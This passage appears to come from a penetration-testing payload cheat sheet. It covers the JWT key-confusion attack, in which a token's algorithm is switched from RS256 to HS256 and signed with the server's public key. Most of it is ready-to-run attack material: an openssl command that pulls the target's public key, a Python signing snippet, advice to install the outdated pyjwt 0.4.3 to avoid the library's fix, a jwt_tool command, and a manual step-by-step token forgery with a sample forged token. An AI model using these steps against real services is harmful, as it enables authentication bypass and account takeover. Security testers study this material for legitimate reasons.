 If a server’s code is expecting a token with "alg" set to RSA, but receives a token with "alg" set to HMAC, it may inadvertently use the public key as the HMAC symmetric key when verifying the signature.

Because the public key can sometimes be obtained by the attacker, the attacker can modify the algorithm in the header to HS256 and then use the RSA public key to sign the data. When the applications use the same RSA key pair as their TLS web server: `openssl s_client -connect example.com:443 | openssl x509 -pubkey -noout`

> The algorithm **HS256** uses the secret key to sign and verify each message.
> The algorithm **RS256** uses the private key to sign the message and uses the public key for authentication.

```python
import jwt
public = open('public.pem', 'r').read()
print public
print jwt.encode({"data":"test"}, key=public, algorithm='HS256')
```

:warning: This behavior is fixed in the python library and will return this error `jwt.exceptions.InvalidKeyError: The specified key is an asymmetric key or x509 certificate and should not be used as an HMAC secret.`. You need to install the following version: `pip install pyjwt==0.4.3`.

* Using [ticarpi/jwt_tool](#)
    ```ps1
    python3 jwt_tool.py JWT_HERE -X k -pk my_public.pem
    ```
* Manually using the following steps to edit an RS256 JWT token into an HS256
    1. Convert our public key (key.pem) into HEX with this command.

        ```powershell
        $ cat key.pem | xxd -p | tr -d "\\n"
        2d2d2d2d2d424547494e20505[STRIPPED]592d2d2d2d2d0a
        ```

    2. Generate HMAC signature by supplying our public key as ASCII hex and with our token previously edited.

        ```powershell
        $ echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZCI6IjIzIiwidXNlcm5hbWUiOiJ2aXNpdG9yIiwicm9sZSI6IjEifQ" | openssl dgst -sha256 -mac HMAC -macopt hexkey:2d2d2d2d2d424547494e20505[STRIPPED]592d2d2d2d2d0a

        (stdin)= 8f421b351eb61ff226df88d526a7e9b9bb7b8239688c1f862f261a0c588910e0
        ```

    3. Convert signature (Hex to "base64 URL")

        ```powershell
        $ python2 -c "exec(\"import base64, binascii\nprint base64.urlsafe_b64encode(binascii.a2b_hex('8f421b351eb61ff226df88d526a7e9b9bb7b8239688c1f862f261a0c588910e0')).replace('=','')\")"
        ```

    4. Add signature to edited payload

        ```powershell
        [HEADER EDITED RS256 TO HS256].[DATA EDITED].[SIGNATURE]
        eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZCI6IjIzIiwidXNlcm5hbWUiOiJ2aXNpdG9yIiwicm9sZSI6IjEifQ.j0IbNR62H_Im34jVJqfpubt7gjlojB-GLyYaDFiJEOA
        ```
